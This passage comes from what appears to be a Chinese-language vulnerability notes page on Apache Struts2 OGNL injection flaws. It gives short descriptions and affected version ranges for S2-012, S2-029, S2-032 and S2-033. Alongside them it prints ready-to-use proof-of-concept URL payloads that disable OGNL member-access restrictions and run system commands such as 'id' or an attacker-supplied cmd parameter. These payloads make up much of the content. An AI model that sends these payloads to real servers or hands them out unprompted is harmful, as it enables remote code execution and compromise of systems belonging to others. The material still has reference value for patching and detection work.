 > 与s2-008poc区别不同的仅仅是由原先的\["allowStaticMethodAccess"\]=true静态方法执行改为(new java.lang.ProcessBuilder('id')).start()，但该方法在虚空浪子心提出s2-012后不久就在博客里说明了官方修补方案将allowStaticMethodAccess取消了后的替补方法就是使用ava.lang.ProcessBuilder
>
> **影响版本**：Struts 2.0.0 - Struts 2.3.15.1

#### S2-029

> Struts框架被强制执行时，对分配给某些标签的属性值进行双重评估，因此可以传入一个值，当一个标签的属性将被渲染时，该值将被再次评估
>
> 例如：代码执行过程大致为先尝试获取value的值，如果value为空，那么就二次解释执行了name。并且在执行前给name加上了”%{}”。最终造成二次执行
>
> **影响版本**：Struts 2.0.0 - Struts 2.3.24.1（2.3.20.3除外）

poc

```java
default.action?message=(%23_memberAccess['allowPrivateAccess']=true,%23_memberAccess['allowProtectedAccess']=true,%23_memberAccess['excludedPackageNamePatterns']=%23_memberAccess['acceptProperties'],%23_memberAccess['excludedClasses']=%23_memberAccess['acceptProperties'],%23_memberAccess['allowPackageProtectedAccess']=true,%23_memberAccess['allowStaticMethodAccess']=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()))
```

#### S2-032

> Struts2在开启了动态方法调用（Dynamic Method Invocation）的情况下，可以使用`method:<name>`的方式来调用名字是`<name>`的方法，而这个方法名将会进行OGNL表达式计算，导致远程命令执行漏洞
>
> **影响版本**: Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)

poc

```java
?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=id
```

![image-20211001220426810](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/48a1e291f7e74804bf4445b064f36d89~tplv-k3u1fbpfcp-zoom-in-crop-mark:4536:0:0:0.awebp)

#### S2-033

> 当开启动态方法调用，并且同时使用了Strut2 REST Plugin插件时，使用“!”操作符调用动态方法可能执行ognl表达式，导致代码执行
>
> **影响版本**：Struts 2.3.20 – Struts 2.3.28 (不包括 2.3.20.3和 2.3.24.3)

```java
/orders/4/%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23xx%3d123,%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr%3d%23context[%23parameters.obj[0]].getWriter(),%23wr.print(%23rs),%23wr.close(),%23xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=2908&command=id
```
